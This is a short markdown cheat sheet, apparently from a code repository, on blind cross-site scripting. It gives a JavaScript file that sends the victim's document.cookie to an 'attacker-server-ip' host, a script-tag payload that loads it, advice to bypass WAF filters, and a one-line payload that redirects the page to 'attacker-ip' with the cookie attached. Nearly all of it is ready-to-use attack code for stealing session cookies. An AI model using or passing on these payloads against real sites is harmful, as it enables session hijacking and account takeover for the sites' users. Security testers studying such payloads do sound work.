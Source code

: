 # Identifing blind xss
### 1. Host a temorary http server(attacker server) with below file and paste the below code inside as cookie.js
<br/>
``` var request = new XMLHttpRequest();
request.open('GET', 'http://attacker-server-ip/?test='+document.cookie, true);
request.send() ``` <br/>

# 2. Submit a payload which will render the above script
``` <script src="http://attacker-server-ip/cookie.js"></script> ```
Try to bypass the filters if there is any WAF

### 3. You will receive cookie on attacker-server

### Directly stealing the cookie(this may or may not work and try it with single quote & double quote and also bypass filter protection if WAF exist)
<script>document.location='http://attacker-ip/?c='+document.cookie</script>
